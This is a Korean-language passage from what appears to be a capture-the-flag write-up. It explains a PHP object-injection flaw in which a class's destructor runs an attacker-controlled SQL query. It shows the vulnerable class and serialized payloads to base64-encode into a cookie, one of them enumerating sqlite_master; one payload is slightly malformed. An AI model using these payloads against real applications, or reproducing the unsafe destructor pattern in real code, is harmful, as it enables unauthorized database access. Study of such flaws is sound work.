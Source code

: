    id라는 값을 받아서 query에 끝에 붙혀준다 
   그럼 여기서 약간의 띵킹을 해야한다. 쿼리실행하는 부분이 없는데 어디서 실행결과를 가져오는거야?
   이제 그럼 두번째 코드를 보자.

   ```php
   <?php
   
   class SQL {
       public $query = '';
       public $conn;
       public function __construct() {
       }
       
       public function connect() {
           $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
       }
   
       public function SQL_query($query) {
           $this->query = $query;
       }
   
       public function execute() {
           return $this->conn->query ($this->query);
       }
   
       public function __destruct() {
           if (!isset ($this->conn)) {
               $this->connect ();
           }
           
           $ret = $this->execute ();
           if (false !== $ret) {    
               while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                   echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
               }
           }
       }
   }
   ?>
   ```

   코드를 보면 destruct()함수가 있다.

   첫번재 코드가 끝나면서 생성된 sql이라는 object가 파기되면서 destruct()함수가 실행
   고로 우리는 현재 세팅된 leet_hax0r라는 값을 변조해서 sql 쿼리인젝션을 한다.

   ```
   O:3:"SQL":1:{s:5:"query";s"20."select 1 as username";}
   ```

   이걸 base64로 인코딩해서 leet_hax0r 쿠키값에 넣는다.  > 그러면 flag라는문자열이 출력됨

   다음으로  이제 플래그를 알아내보자.

   ```
   O:3:"SQL":1:{s:5:"query";s:42:"select name as username from sqlite_master";}
   ```
